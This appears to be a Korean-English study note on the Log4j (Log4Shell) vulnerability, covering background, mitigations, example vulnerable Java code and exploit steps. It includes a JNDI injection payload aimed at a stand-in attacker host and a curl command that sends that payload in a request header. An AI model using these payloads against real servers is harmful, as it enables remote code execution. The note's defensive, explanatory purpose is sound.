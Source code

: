## Log4j 개념 설명과 Log4j가 보안 위험에 노출된 이유

> Apache Log4j2 versions 2.0-beta7 through 2.17.0 are vulnerable to a **remote code execution(RCE) attack** where an **attacker** with permission to modify the logging configuration file **can construct a malicious configuration using a JDBC Appender with a data source referencing a JNDI URI which can execute remote code.** This issue is fixed by limiting JDNI data source names to th java protocol in Log4j2 versions 2.17.1, 2.12.4, and 2.3.2
>

Log4j는

- JAVA 기반 오픈소스 유틸리티로 엔터프라이즈 애플리케이션과 웹사이트에서 많이 사용된다.
- 서비스 동작 과정에서 일어나는 모든 기록을 남긴다.
- 침해 사고 발생 및 이상 징후를 점검하기 위해 Log4j를 이용한다.

이번 Log4j 취약점은 JNDI (Java Naming Directory Interface)와 LDAP (Lightweight Directory Access Protocol)에서 시작한다. 

- JNDI : JAVA  프로그램이 디렉토리를 통해 데이터를 찾을 수 있는 다양한 디렉토리 서비스 Interface를 제공한다. 그중 하나가 LDAP
- Java 프로그램들은 JDNI와 LDAP를 통해 Java 객체를 찾을 수 있다.
- 여기서 문제는 Log4j에 이를 이용하여 편하게 Java 객체를 볼 수 있게하는 특정 문법이 존재한다는 것이다.
- 이 문법들은 로그가 기록될 때도 사용이 가능하다. 해커들은 로그가 기록되는 곳을 찾아 취약점을 이용할 수 있게 된다.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fa000d09-d02e-438a-b350-55f63b79fe58/Untitled.png)

## 해결 방법

- 가장 확실한 조치는 log4j 라이브러리를 2.15 이상으로 업데이트 하는 것이다.
- 그러나 단 기간에 라이브러리를 업데이트하고 재검증하기 어려울 경우, 다음과 같은 선제 조치를 취한다.

**1) JndiLookup을 log4j-core에서 제거**

- 라이브러리 경로에서 아래 명령을 실행하면 JndiLookup.class가 제거된다.

```sql
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```

**2) JVM 옵션으로 JndiLookup 기능을 제한하는 방법**

: -Dlog4j2.formatMsgNoLookups=true 옵션과 함께 애플리케이션을 실행한다. 

```bash
java -Dlog4j2.formatMsgNoLookups=true -jar myapp.jar
```



## How the exploit works

### Exploit Requirements

- A server with a vulnerable log4j version
- An endpoint with any protocol (HTTP, TCP, etc), that allows an attacker to send the exploit string.
- A log statement that logs out the string from that request.

### Example Vulnerable Code

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = LogManager.getLogger(VulnerableLog4jExampleHandler.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's x-api-version header and logs it back.
   * This is pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    String apiVersion = he.getRequestHeader("X-Api-Version");

    // This line triggers the RCE by logging the attacker-controlled HTTP header.
    // The attacker can set their X-Api-Version header to: ${jndi:ldap://some-attacker.com/a}
    log.info("Requested Api Version:{}", apiVersion);

    String response = "<h1>Hello from: " + apiVersion + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
```

- 다음과 같은 요청을 보냄

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1/a}'
```

### Exploit Steps

1. Data from the User gets sent to the server (via any protocol).
2. logs the data containing the malicious payload from the request `${jndi:ldap://some-attacker.com/a}`, where `some-attacker.com` is an attacker controlled server.
3. The log4j vulnerability is triggered by this payload and the server makes a request to `some-attacker.com` via "[Java Naming and Directory Interface](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)" (JNDI).
4. This response contains a path to a remote Java class file (ex. `http://second-stage.some-attacker.com/Exploit.class`), which is injected into the server process.
5. This injected payload triggers a second stage, and allows an attacker to execute arbitrary code.

## 참고 자료

[https://www.whatap.io/ko/blog/100/](https://www.whatap.io/ko/blog/100/)

[https://logging.apache.org/log4j/2.x/security.html](https://logging.apache.org/log4j/2.x/security.html)

[https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance)

[https://www.lunasec.io/docs/blog/log4j-zero-day/](https://www.lunasec.io/docs/blog/log4j-zero-day/)
